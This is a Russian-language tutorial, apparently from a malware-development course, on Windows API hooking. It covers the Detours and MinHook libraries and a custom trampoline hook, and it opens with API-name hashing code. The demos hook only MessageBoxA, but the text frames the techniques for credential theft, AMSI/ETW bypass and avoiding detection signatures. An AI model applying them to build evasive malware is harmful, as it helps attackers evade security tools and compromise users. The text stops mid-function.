#define SEED 5 // генерировать случайный ключ (используется как начальный хеш)
constexpr int RandomCompileTimeSeed(void)
{
return '0' * -40271 +
__TIME__[7] * 1 +
__TIME__[6] * 10 +
__TIME__[4] * 60 +
__TIME__[3] * 600 +
__TIME__[1] * 3600 +
__TIME__[0] * 36000;
};
constexpr auto g_KEY = RandomCompileTimeSeed() % 0xFF;
// Функция хеширования Djb2 во время компиляции (WIDE)
constexpr DWORD HashStringDjb2W(const wchar_t* String) {
ULONG Hash = (ULONG)g_KEY;
INT c = 0;
while ((c = *String++)) {
Hash = ((Hash << SEED) + Hash) + c;
}
return Hash;
}
// Функция хеширования Djb2 во время компиляции (ASCII)
constexpr DWORD HashStringDjb2A(const char* String) {
ULONG Hash = (ULONG)g_KEY;
INT c = 0;
while ((c = *String++)) {
Hash = ((Hash << SEED) + Hash) + c;
}
return Hash;
}
// макросы хеширования во время выполнения
#define RTIME_HASHA( API ) HashStringDjb2A((const char*) API)
#define RTIME_HASHW( API ) HashStringDjb2W((const wchar_t*) API)
// макросы хеширования во время компиляции (используются для создания переменных)
#define CTIME_HASHA( API ) constexpr auto API##_Rotr32A = HashStringDjb2A((const char*) #API);
#define CTIME_HASHW( API ) constexpr auto API##_Rotr32W = HashStringDjb2W((const wchar_t*) L#API);
FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {
PBYTE pBase = (PBYTE)hModule;
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
if (dwApiNameHash == RTIME_HASHA(pFunctionName)) { // проверка значения хеша во время выполнения
return (FARPROC)pFunctionAddress;
}
}
return NULL;
}Демо
Кунгфу-2.Изучаем API Hooking
Введение
API Hooking — это техника, используемая для перехвата и изменения поведения функции API. Она часто используется для отладки, обратного проектирования и взлома игр.
API Hooking позволяет заменять оригинальную реализацию функции API собственной версией, которая выполняет некоторые дополнительные действия до или после вызова оригинальной функции. Это позволяет изменять поведение программы без изменения её исходного кода.
Трамплины
Классический способ реализации API-хуков осуществляется с помощью трамплинов.
Трамплин — это шеллкод, который используется для изменения пути выполнения кода путем перехода на другой конкретный адрес в адресном пространстве процесса. Шеллкод трамплина вставляется в начало функции, в результате чего функция становится "подцепленной". Когда вызывается подцепленная функция, вместо нее активируется шеллкод трамплина, и поток выполнения передается и изменяется на другой адрес, что приводит к выполнению другой функции.
Встраиваемый Хук
Встраиваемый хук — это альтернативный метод выполнения API-хуков, который работает аналогично хуку на основе трамплина. Разница заключается в том, что встраиваемые хуки возвращают выполнение законной функции, позволяя нормальному выполнению продолжаться. Несмотря на то что они сложнее в реализации и потенциально труднее в обслуживании, встраиваемые хуки более эффективны.
API-хук выполняется некоторыми средствами безопасности, чтобы позволить им более тщательно изучать часто злоупотребляемые функции. Об этом будет подробнее рассказано далее.
Зачем API-Хук
Хотя API-хук в основном используется для анализа вредоносного ПО и целей отладки, его можно использовать при разработке вредоносного ПО по следующим причинам:
Сбор конфиденциальной информации или данных (например, учетные данные).
Изменение или перехват вызовов функций в злонамеренных целях.
Обход мер безопасности путем изменения поведения операционной системы или программы (например, AMSI, ETW).
Реализация Хука
Существует много способов реализации API-хука, один из способов — через открытые библиотеки, такие как библиотека Detours от Microsoft и Minhook. Еще один, более ограниченный способ, — использование API Windows, предназначенных для выполнения API-хука (хотя с ограниченными возможностями).
Далее в статье будут продемонстрированы как Detours, так и Minhook.
Кроме того, будут использованы API Windows, чтобы увидеть, что они могут предложить.
Наконец, будет создан пользовательский код хука, чтобы уменьшить подписи и индикаторы компрометации, которые обычно используются для обнаружения использования открытых библиотек.
Итак начнём.)
API Hooking - Библиотека Detours
Библиотека Detours для хука, разработанная Microsoft Research, позволяет перехватывать и перенаправлять вызовы функций в Windows.
Библиотека перенаправляет вызовы определенных функций к пользовательской заменяющей функции, которая может затем выполнять дополнительные задачи или изменять поведение исходной функции.
Detours обычно используется с программами на C/C++ и может быть использована как с 32-битными, так и с 64-битными приложениями.
Страница wiki библиотеки доступна здесь.
Транзакции
Библиотека Detours заменяет первые несколько инструкций целевой функции, то есть функции, к которой применяется хук, безусловным переходом к пользовательской функции обходного пути, которая будет выполнена вместо неё.
Термин "безусловный переход" также называется "трамплином".
Библиотека использует транзакции для установки и удаления хуков из целевой функции. Транзакции позволяют группировать несколько функций хуков вместе и применять их как единую единицу, что может быть полезно при внесении нескольких изменений в поведение программы. Это также предоставляет преимущество в том, что пользователь может легко отменить все изменения при необходимости. При использовании транзакций можно начать новую транзакцию, добавить функции хуков и затем подтвердить её. При подтверждении транзакции все функции хуков, добавленные к транзакции, будут применены к программе, как это было бы в случае с удалением хука.
Использование библиотеки Detours
Для использования функций библиотеки Detours необходимо загрузить и скомпилировать репозиторий Detours, чтобы получить необходимые статические файлы библиотеки (.lib). Кроме того, следует включить заголовочный файл detours.h, что объясняется в разделе "Использование Detours" на вики Detours.
Для дополнительной помощи в добавлении .lib файлов в проект ознакомьтесь с документацией Microsoft.
32-битная vs 64-битная библиотека Detours
Предоставленный в этой статье код содержит препроцессорный код, который определяет, какую версию файла .lib Detours следует включить, в зависимости от архитектуры используемой машины. Для этого используются макросы _M_X64 и _M_IX86. Эти макросы определены компилятором для указания, работает ли машина на 64-битной или 32-битной версии Windows. Препроцессорный код выглядит следующим образом:
C:
// Если компилируется как 64-бит
#ifdef _M_X64
#pragma comment (lib, "detoursx64.lib")
#endif // _M_X64
// Если компилируется как 32-бит
#ifdef _M_IX86
#pragma comment (lib, "detoursx86.lib")
#endif // _M_IX86#ifdef _M_X64 проверяет, определен ли макрос _M_X64, и если он определен, следующий за ним код будет включен в компиляцию. Если он не определен, код будет проигнорирован. Аналогично, #ifdef _M_IX86 проверяет, определен ли макрос _M_IX86, и если он определен, следующий за ним код будет включен в компиляцию. #pragma comment (lib, "detoursx64.lib") используется для связывания библиотеки detoursx64.lib во время компиляции для 64-битных систем, и #pragma comment (lib, "detoursx86.lib") используется для связывания библиотеки detoursx86.lib во время компиляции для 32-битных систем.
Файлы detoursx64.lib и detoursx86.lib создаются при компиляции библиотеки Detours, detoursx64.lib создается при компиляции библиотеки Detours как 64-битный проект, таким же образом файл detoursx86.lib создается при компиляции библиотеки Detours как 32-битный проект.
Функции API Detours
При использовании любого метода хуков первым шагом всегда является получение адреса функции WinAPI для хука. Адрес функции требуется для определения, где будут размещены инструкции перехода. В этом модуле функция MessageBoxA будет использоваться как функция для хука.
Ниже перечислены функции API, которые предлагает библиотека Detours:
- DetourTransactionBegin - начать новую транзакцию для установки или удаления обходных путей. Эту функцию следует вызывать первой при установке и удалении хука.
- DetourUpdateThread - обновить текущую транзакцию. Это используется библиотекой Detours для включения потока в текущую транзакцию.
- DetourAttach - установить хук на целевую функцию в текущей транзакции. Это не будет зафиксировано, пока не будет вызвана функция DetourTransactionCommit.
- DetourDetach - удалить хук с целевой функции в текущей транзакции. Это не будет зафиксировано, пока не будет вызвана функция DetourTransactionCommit.
- DetourTransactionCommit - подтвердить текущую транзакцию для установки или удаления обходных путей. Возвращаемое значение функций выше - это значение LONG, которое используется для понимания результата выполнения функции. API Detours вернет NO_ERROR, которое равно 0, если она завершится успешно, и ненулевое значение в случае ошибки. Ненулевое значение может быть использовано как код ошибки для целей отладки.
Следующим шагом является создание функции для замены подцепленного API. Функция замены должна иметь тот же тип данных и, по желанию, принимать те же параметры. Это позволяет проверять или изменять значения параметров. Например, следующая функция может быть использована в качестве функции обходного пути для MessageBoxA, что позволяет проверять исходные значения параметров.
Код:
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
// мы можем проверять hWnd - lpText - lpCaption - параметры uType
}Стоит отметить, что функция замены может принимать меньше параметров, но не может принимать больше, чем исходная функция, потому что тогда она будет обращаться к недействительному адресу, что вызовет исключения нарушения доступа.
Проблема бесконечного цикла
Когда вызывается подцепленная функция и активируется хук, выполняется пользовательская функция, однако для продолжения потока выполнения пользовательская функция должна вернуть действительное значение, которое исходная подцепленная функция должна была вернуть. Наивный подход заключается в том, чтобы вернуть то же значение, вызывая исходную функцию внутри хука. Это может привести к проблемам, так как вместо заменяющей функции будет вызываться исходная функция, что приведет к бесконечному циклу. Это общая проблема хуков и не ошибка в библиотеке Detours.
Для лучшего понимания рассмотрите приведенный ниже фрагмент кода, показывающий функцию замены MyMessageBoxA, вызывающую MessageBoxA. Это приводит к бесконечному циклу. Программа застрянет на выполнении MyMessageBoxA, потому что MyMessageBoxA вызывает MessageBoxA, и MessageBoxA ведет к функции MyMessageBoxA снова.
C:
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
// Вывод оригинальных значений параметров
printf("Оригинальный параметр lpText : %s\n", lpText);
printf("Оригинальный параметр lpCaption : %s\n", lpCaption);
// НЕ ДЕЛАЙТЕ ТАК
// Изменение значений параметров
return MessageBoxA(hWnd, "другой lpText", "другой lpCaption", uType); // Вызов MessageBoxA (этот хук активен)
}Решение 1 - Глобальный указатель на оригинальную функцию
Библиотека Detours может решить эту проблему, сохранив указатель на исходную функцию перед ее подцеплением. Этот указатель можно сохранить в глобальной переменной и вызвать вместо подцепленной функции в функции обходного пути.
C:
// Используется как не подцепленная MessageBoxA в `MyMessageBoxA`
fnMessageBoxA g_pMessageBoxA = MessageBoxA;
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
// Вывод оригинальных значений параметров
printf("Оригинальный параметр lpText : %s\n", lpText);
printf("Оригинальный параметр lpCaption : %s\n", lpCaption);
// Изменение значений параметров
// Вызов не подцепленной MessageBoxA
return g_pMessageBoxA(hWnd, "другой lpText", "другой lpCaption", uType);
}Решение 2 - Использование другого API
Еще одно более общее решение, которое стоит упомянуть, заключается в вызове другой не подцепленной функции, которая имеет такую же функциональность, как и подцепленная функция. Например, MessageBoxA и MessageBoxW, VirtualAlloc и VirtualAllocEx.
C:
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
// Вывод оригинальных значений параметров
printf("Оригинальный параметр lpText : %s\n", lpText);
printf("Оригинальный параметр lpCaption : %s\n", lpCaption);
// Изменение значений параметров
return MessageBoxW(hWnd, L"другой lpText", L"другой lpCaption", uType);
}Процедура хука Detours
Как было объяснено ранее, библиотека Detours работает с использованием транзакций, поэтому для установки хука на функцию API необходимо создать транзакцию, представить действие (установка/удаление хука) для транзакции, а затем подтвердить транзакцию. Приведенный ниже фрагмент кода выполняет эти шаги.
C:
// Используется как не подцепленная MessageBoxA в `MyMessageBoxA`
// И используется в `DetourAttach` & `DetourDetach`
fnMessageBoxA g_pMessageBoxA = MessageBoxA;
// Функция, которая будет запускаться вместо MessageBoxA при активации хука
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
printf("[+] Оригинальные параметры : \n");
printf("\t - lpText : %s\n", lpText);
printf("\t - lpCaption : %s\n", lpCaption);
return g_pMessageBoxA(hWnd, "другой lpText", "другой lpCaption", uType);
}
BOOL InstallHook() {
DWORD dwDetoursErr = NULL;
// Создание транзакции и её обновление
if ((dwDetoursErr = DetourTransactionBegin()) != NO_ERROR) {
printf("[!] DetourTransactionBegin завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
if ((dwDetoursErr = DetourUpdateThread(GetCurrentThread())) != NO_ERROR) {
printf("[!] DetourUpdateThread завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
// Запуск MyMessageBoxA вместо g_pMessageBoxA, который является MessageBoxA
if ((dwDetoursErr = DetourAttach((PVOID)&g_pMessageBoxA, MyMessageBoxA)) != NO_ERROR) {
printf("[!] DetourAttach завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
// Фактическая установка хука происходит после `DetourTransactionCommit` - подтверждение транзакции
if ((dwDetoursErr = DetourTransactionCommit()) != NO_ERROR) {
printf("[!] DetourTransactionCommit завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
return TRUE;
}Процедура удаления хука Detours
Приведенный ниже фрагмент кода показывает ту же процедуру, что и в предыдущем разделе, но это для удаления хука.
C:
// Используется как не подцепленная MessageBoxA в `MyMessageBoxA`
// И используется в `DetourAttach` & `DetourDetach`
fnMessageBoxA g_pMessageBoxA = MessageBoxA;
// Функция, которая будет запускаться вместо MessageBoxA при активации хука
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
printf("[+] Оригинальные параметры : \n");
printf("\t - lpText : %s\n", lpText);
printf("\t - lpCaption : %s\n", lpCaption);
return g_pMessageBoxA(hWnd, "другой lpText", "другой lpCaption", uType);
}
BOOL Unhook() {
DWORD dwDetoursErr = NULL;
// Создание транзакции и её обновление
if ((dwDetoursErr = DetourTransactionBegin()) != NO_ERROR) {
printf("[!] DetourTransactionBegin завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
if ((dwDetoursErr = DetourUpdateThread(GetCurrentThread())) != NO_ERROR) {
printf("[!] DetourUpdateThread завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
// Удаление хука из MessageBoxA
if ((dwDetoursErr = DetourDetach((PVOID)&g_pMessageBoxA, MyMessageBoxA)) != NO_ERROR) {
printf("[!] DetourDetach завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
// Фактическое удаление хука происходит после `DetourTransactionCommit` - подтверждение транзакции
if ((dwDetoursErr = DetourTransactionCommit()) != NO_ERROR) {
printf("[!] DetourTransactionCommit завершилась ошибкой с кодом : %d \n", dwDetoursErr);
return FALSE;
}
return TRUE;
}Основная функция
Ранее показанные процедуры установки и удаления хука не включают в себя основную функцию. Основная функция представлена ниже, в ней просто вызываются подцепленные и не подцепленные версии MessageBoxA.
C:
int main() {
// Будет выполнено - не подцеплено
MessageBoxA(NULL, "Что вы думаете о разработке вредоносных программ?", "Оригинальное сообщение", MB_OK | MB_ICONQUESTION);
//------------------------------------------------------------------
// Установка хука
if (!InstallHook())
return -1;
//------------------------------------------------------------------
// Не будет выполнено - будет запущена функция MyMessageBoxA вместо этого
MessageBoxA(NULL, "Разработка вредоносных программ - это плохо", "Оригинальное сообщение", MB_OK | MB_ICONWARNING);
//------------------------------------------------------------------
// Удаление хука
if (!Unhook())
return -1;
//------------------------------------------------------------------
// Будет выполнено - хук удален
MessageBoxA(NULL, "Снова обычное сообщение", "Оригинальное сообщение", MB_OK | MB_ICONINFORMATION);
return 0;
}Демо
MessageBoxA (Unhooked)
MessageBoxA (Hooked)
MessageBoxA (Unhooked)
Библиотека Minhook
Minhook - это библиотека для хукинга, написанная на C, которая может быть использована для достижения API-хукинга. Она совместима как с 32-битными, так и с 64-битными приложениями на Windows и использует ассемблер x86/x64 для внутреннего хукинга, аналогично библиотеке Detours. По сравнению с другими библиотеками хукинга, MinHook проще и предлагает легковесные API, что делает работу с ней проще.
Использование библиотеки Minhook
Как и библиотека Detours, библиотека Minhook требует статический .lib файл и заголовочный файл MinHook.h, которые должны быть включены в проект Visual Studio.
Функции API Minhook
Библиотека Minhook работает, инициализируя структуру, которая содержит необходимую информацию, необходимую для установки или удаления хука.
Это делается через API MH_Initialize, который инициализирует структуру HOOK_ENTRY в библиотеке. Затем используется функция MH_CreateHook для создания хуков, и MH_EnableHook используется для их активации. MH_DisableHook используется для удаления хуков, и, наконец, MH_Uninitialize используется для очистки инициализированной структуры.
Функции перечислены ниже для удобства:
MH_Initialize - Инициализация структуры HOOK_ENTRY.
MH_CreateHook - Создание хуков.
MH_EnableHook - Активация созданных хуков.
MH_DisableHook - Удаление хуков.
MH_Uninitialize - Очистка инициализированной структуры.
API Minhook возвращает значение MH_STATUS, которое является пользовательским перечислением, расположенным в Minhook.h. Возвращаемый тип данных MH_STATUS указывает код ошибки указанной функции. Значение MH_OK, которое равно 0, возвращается, если функция выполняется успешно, и ненулевое значение возвращается в случае ошибки.
Стоит отметить, что функции MH_Initialize и MH_Uninitialize следует вызывать только один раз, в начале и в конце программы соответственно.
Функция подмены (которая будет вызываться вместо API)
Здесь тот же пример API MessageBoxA из предыдущего модуля, который будет подменяться и изменяться для выполнения другого сообщения.
C:
fnMessageBoxA g_pMessageBoxA = NULL;
INT WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
printf("[+] Оригинальные параметры : \n");
printf("\t - lpText : %s\n", lpText);
printf("\t - lpCaption : %s\n", lpCaption);
return g_pMessageBoxA(hWnd, "Разный lpText", "Разный lpCaption", uType);
}Обратите внимание, что глобальная переменная g_pMessageBoxA используется для запуска окна сообщений, где g_pMessageBoxA - это указатель на оригинальный, не подмененный API MessageBoxA. Ей присваивается значение NULL, потому что вызов API Minhook MH_CreateHook инициализирует его для использования, в отличие от библиотеки Detours, где g_pMessageBoxA устанавливается вручную. Это делается для предотвращения возникновения проблемы цикла хукинга, о которой говорилось в предыдущем модуле.
Процедура хукинга Minhook
Как упоминалось ранее, чтобы подменить конкретный API с помощью Minhook, сначала необходимо выполнить функцию MH_Initialize. Затем можно создать хуки с помощью MH_CreateHook и активировать их с помощью MH_EnableHook.
C:
BOOL InstallHook() {
DWORD dwMinHookErr = NULL;
if ((dwMinHookErr = MH_Initialize()) != MH_OK) {
printf("[!] MH_Initialize завершился с ошибкой : %d \n", dwMinHookErr);
return FALSE;
}
// Установка хука на MessageBoxA, чтобы запускать MyMessageBoxA вместо него
// g_pMessageBoxA будет указателем на оригинальную функцию MessageBoxA
if ((dwMinHookErr = MH_CreateHook(&MessageBoxA, &MyMessageBoxA, &g_pMessageBoxA)) != MH_OK) {
printf("[!] MH_CreateHook завершился с ошибкой : %d \n", dwMinHookErr);
return FALSE;
}
// Активация хука на MessageBoxA
if ((dwMinHookErr = MH_EnableHook(&MessageBoxA)) != MH_OK) {
printf("[!] MH_EnableHook завершился с ошибкой : %d \n", dwMinHookErr);
return -1;
}
return TRUE;
}Процедура отмены хукинга Minhook
В отличие от библиотеки Detours, библиотека Minhook не требует использования транзакций. Вместо этого, чтобы удалить хук, единственное требование - это запустить API MH_DisableHook с адресом подмененной функции. Вызов MH_Uninitialize необязателен, но он очищает структуру, инициализированную предыдущим вызовом MH_Initialize.
C:
BOOL Unhook() {
DWORD dwMinHookErr = NULL;
if ((dwMinHookErr = MH_DisableHook(&MessageBoxA)) != MH_OK) {
printf("[!] MH_DisableHook завершился с ошибкой : %d \n", dwMinHookErr);
return -1;
}
if ((dwMinHookErr = MH_Uninitialize()) != MH_OK) {
printf("[!] MH_Uninitialize завершился с ошибкой : %d \n", dwMinHookErr);
return -1;
}
}Главная функция
Ранее показанные процедуры хукинга и отмены хукинга не включают главную функцию. Главная функция представлена ниже, она просто вызывает подмененные и не подмененные версии MessageBoxA.
C:
int main() {
// будет выполняться
MessageBoxA(NULL, "Что вы думаете о разработке вредоносных программ?", "Оригинальное сообщение", MB_OK | MB_ICONQUESTION);
// подмена
if (!InstallHook())
return -1;
// не будет выполняться - подменено
MessageBoxA(NULL, "Разработка вредоносных программ - это плохо", "Оригинальное сообщение", MB_OK | MB_ICONWARNING);
// отмена подмены
if (!Unhook())
return -1;
// будет выполняться - хук отключен
MessageBoxA(NULL, "Снова обычное сообщение", "Оригинальное сообщение", MB_OK | MB_ICONINFORMATION);
return 0;
}API Hooking - Собственный код
Введение
До сих пор для реализации API-хукинга использовались открытые библиотеки. Однако основная проблема этого подхода заключается в том, что исходный код этих библиотек доступен публично, что позволяет исследователям в области безопасности и поставщикам продуктов безопасности создавать IoC(Indicators of compromise). По этой причине в этом модуле API-хукинг будет реализован вручную, хотя и не так изощренно, как в ранее продемонстрированных библиотеках, но достаточно для достижения желаемого результата без IoC.
Собственный код для хукинга может быть лучшим решением, если задача - установить хук на одну функцию. Это позволяет избежать дополнительных усилий по связыванию других библиотек и уменьшает их влияние на размер бинарного файла.
Создание трамплинного шеллкода
Один из способов установки хука на функцию - перезаписать её первые несколько инструкций новыми. Эти новые инструкции - это трамплин, который отвечает за изменение потока выполнения функции на заменяющую функцию. Типичным трамплином является небольшой jmp-шеллкод, который выполняет инструкцию jmp к адресу функции, которая должна быть выполнена. Чтобы выполнить инструкцию jmp, адрес, к которому нужно перейти, должен быть сохранен в регистре. В представленном примере регистром будет eax на 32-битном процессоре и r10 на 64-битном процессоре. Инструкция mov будет использоваться для сохранения адреса в этих регистрах.
Этого достаточно для трамплина: инструкции mov и jmp. Глубокое погружение в то, как используются эти инструкции, не является целью этой статьи. Если вы хотите узнать больше, то можно посетить felixcloutier.com/x86/mov и felixcloutier.com/x86/jmp для получения дополнительной информации.
64-битный Jump Shellcode
64-битный jump-шеллкод должен выглядеть следующим образом:
C:
mov r10, pAddress
jmp r10Где pAddress - это адрес функции, к которой нужно перейти (например, 0x0000FFFEC32A300). Чтобы использовать эти инструкции в коде, их сначала нужно преобразовать в опкоды.
C:
0x49, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov r10, pAddress
0x41, 0xFF, 0xE2 // jmp r1032-битный Jump Shellcode А версия для 32-бит:
C:
mov eax, pAddress
jmp eaxТакже нужно преобразовать инструкции в опкоды.
C:
0xB8, 0x00, 0x00, 0x00, 0x00, // mov eax, pAddress
0xFF, 0xE0 // jmp eaxСледует отметить, что pAddress представлено как NULL, что объясняет последовательность 0x00. Эти опкоды 0x00 являются заполнителями и будут перезаписаны во время выполнения.
Получение pAddress
Поскольку хуки устанавливаются во время выполнения, значение pAddress должно быть получено и добавлено в шеллкод во время выполнения. Получение адреса можно выполнить с помощью GetProcAddress, и после этого использовать memcpy для копирования адреса в правильное место в шеллкоде.
C:
//64-битное пропатчивание
uint8_t uTrampoline[] = {
0x49, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov r10, pFunctionToRun
0x41, 0xFF, 0xE2 // jmp r10
};
uint64_t uPatch = (uint64_t)pAddress;
memcpy(&uTrampoline[2], &uPatch, sizeof(uPatch)); // копирование адреса в смещение '2' в uTrampoline
C:
//32-битное пропатчивание
uint8_t uTrampoline[] = {
0xB8, 0x00, 0x00, 0x00, 0x00, // mov eax, pFunctionToRun
0xFF, 0xE0 // jmp eax
};
uint32_t uPatch = (uint32_t)pAddress;
memcpy(&uTrampoline[1], &uPatch, sizeof(uPatch)); // копирование адреса в смещение '1' в uTrampolineКак упоминалось ранее, pAddress - это адрес функции, к которой нужно перейти. Типы данных uint32_t и uint64_t используются для обеспечения правильного количества байтов адреса, то есть 4 байта для 32-битных машин и 8 байтов для 64-битных машин. uint32_t имеет размер 4 байта, а uint64_t - 8 байтов. Затем memcpy поместит адрес в трамплин, перезаписывая байты-заполнители 0x00.
Запись трамплина
Перед перезаписью первых нескольких инструкций целевой функции подготовленным шеллкодом важно пометить память, в которой будет записан трамплин, как доступную для записи. В большинстве случаев регион памяти не будет доступен для записи, что потребует использования WinAPI VirtualProtect для изменения разрешений памяти на PAGE_EXECUTE_READWRITE. Стоит отметить, что память должна быть доступна для записи и выполнения, потому что когда программа вызывает функцию, ей нужно выполнить инструкции, которые не будут разрешены в памяти, доступной только для записи.
Исходя из этого, трамплин должен сначала изменить разрешения целевой функции, а затем скопировать над ним шеллкод.
C:
// Изменение разрешений памяти в 'pFunctionToHook' на PAGE_EXECUTE_READWRITE
if (!VirtualProtect(pFunctionToHook, sizeof(uTrampoline), PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
return FALSE;
}
// Копирование трамплинового шеллкода в 'pFunctionToHook'
memcpy(pFunctionToHook, uTrampoline, sizeof(uTrampoline));Где pFunctionToHook - это адрес функции для установки хука, а uTrampoline - это jmp-шеллкод.
Отключение хука
Когда вызывается захваченная функция, трамплиновый шеллкод должен работать как для 64-битных, так и для 32-битных архитектур. Однако отключение захваченной функции не обсуждалось. Для этого оригинальные байты, которые были перезаписаны трамплином, следует восстановить, используя буфер, содержащий эти байты, который был создан до установки трамплинового шеллкода. Затем этот буфер следует использовать как исходный буфер в функции memcpy при отключении функции.
C:
memcpy(pFunctionToHook, pOriginalBytes, sizeof(pOriginalBytes));Где pFunctionToHook - это адрес захваченной функции, а pOriginalBytes - это буфер, который содержит оригинальные байты функции, которые должны были быть сохранены до установки хука, и это можно сделать с помощью вызова memcpy. Размер буфера pOriginalBytes должен быть таким же, как размер трамплинового шеллкода, таким образом, будет перезаписан только шеллкод. Наконец, рекомендуется восстановить разрешения памяти, что можно сделать с помощью приведенного ниже кода.
C:
if (!VirtualProtect(pFunctionToHook, sizeof(uTrampoline), dwOldProtection, &dwOldProtection)) {
return FALSE;
}Где dwOldProtection - это старое разрешение памяти, возвращаемое первым вызовом VirtualProtect.
Структура HookSt
Чтобы упростить реализацию, была создана структура HookSt. Эта структура будет содержать необходимую информацию для установки и отключения хука на определенную функцию. Значение TRAMPOLINE_SIZE установлено на 13, если программа компилируется как 64-битное приложение, и установлено на 7, если программа компилируется в режиме 32-бит. Значения 13 и 7 - это размеры трамплинового шеллкода, указанные в переменной uTrampoline, представленной ранее, для 64-битных и 32-битных систем соответственно.
C:
typedef struct _HookSt{
PVOID pFunctionToHook; // адрес функции для установки хука
PVOID pFunctionToRun; // адрес функции для выполнения вместо
BYTE pOriginalBytes[TRAMPOLINE_SIZE]; // буфер для сохранения некоторых оригинальных байтов (необходим для очистки)
DWORD dwOldProtection; // сохраняет старое разрешение памяти по адресу "функции для установки хука" (необходимо для очистки)
}HookSt, *PHookSt;Установка значения TRAMPOLINE_SIZE выполняется с помощью следующего препроцессорного кода:
C:
// если компиляция как 64-бит
#ifdef _M_X64
#define TRAMPOLINE_SIZE 13
#endif // _M_X64
// если компиляция как 32-бит
#ifdef _M_IX86
#define TRAMPOLINE_SIZE 7
#endif // _M_IX86Установка хуков
Следующая функция использует HookSt для установки хуков.
C:
BOOL InstallHook (IN PHookSt Hook) {
#ifdef _M_X64
// 64-битный трамплин
uint8_t uTrampoline [] = {
0x49, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov r10, pFunctionToRun
0x41, 0xFF, 0xE2 // jmp r10
};
// Пропатчивание шеллкода адресом для перехода (pFunctionToRun)
uint64_t uPatch = (uint64_t)(Hook->pFunctionToRun);
// Копирование адреса функции для перехода в смещение '2' в uTrampoline
memcpy(&uTrampoline[2], &uPatch, sizeof(uPatch));
#endif // _M_X64
#ifdef _M_IX86
// 32-битный трамплин
uint8_t uTrampoline[] = {
0xB8, 0x00, 0x00, 0x00, 0x00, // mov eax, pFunctionToRun
0xFF, 0xE0 // jmp eax
};
// Пропатчивание шеллкода адресом для перехода (pFunctionToRun)
uint32_t uPatch = (uint32_t)(Hook->pFunctionToRun);
// Копирование адреса функции для перехода в смещение '1' в uTrampoline
memcpy(&uTrampoline[1], &uPatch, sizeof(uPatch));
#endif // _M_IX86
// Размещение трамплинной функции - установка хука
memcpy(Hook->pFunctionToHook, uTrampoline, sizeof(uTrampoline));
return TRUE;
}Снятие хуков
Функция ниже использует HookSt для снятия хуков.
C:
BOOL RemoveHook (IN PHookSt Hook) {
DWORD dwOldProtection = NULL;
// Копирование оригинальных байтов назад
memcpy(Hook->pFunctionToHook, Hook->pOriginalBytes, TRAMPOLINE_SIZE);
// Очистка нашего буфера
memset(Hook->pOriginalBytes, '\0', TRAMPOLINE_SIZE);
// Установка старого разрешения памяти обратно в то, что было до установки хука
if (!VirtualProtect(Hook->pFunctionToHook, TRAMPOLINE_SIZE, Hook->dwOldProtection, &dwOldProtection)) {
printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Установка всех значений в null
Hook->pFunctionToHook = NULL;
Hook->pFunctionToRun = NULL;
Hook->dwOldProtection = NULL;
return TRUE;
}Заполнение структуры HookSt
Функция InitializeHookStruct используется для заполнения структуры HookSt необходимой информацией для установки хука.
C:
BOOL InitializeHookStruct(IN PVOID pFunctionToHook, IN PVOID pFunctionToRun, OUT PHookSt Hook) {
// Заполнение структуры
Hook->pFunctionToHook = pFunctionToHook;
Hook->pFunctionToRun = pFunctionToRun;
// Сохранение оригинальных байтов того же размера, который мы будем перезаписывать (то есть TRAMPOLINE_SIZE)
// Это делается для возможности выполнения очистки при завершении
memcpy(Hook->pOriginalBytes, pFunctionToHook, TRAMPOLINE_SIZE);
// Изменение разрешения на RWX, чтобы можно было изменять байты
// Мы сохраняем старое разрешение в структуре (для последующего восстановления)
if (!VirtualProtect(pFunctionToHook, TRAMPOLINE_SIZE, PAGE_EXECUTE_READWRITE, &Hook->dwOldProtection)) {
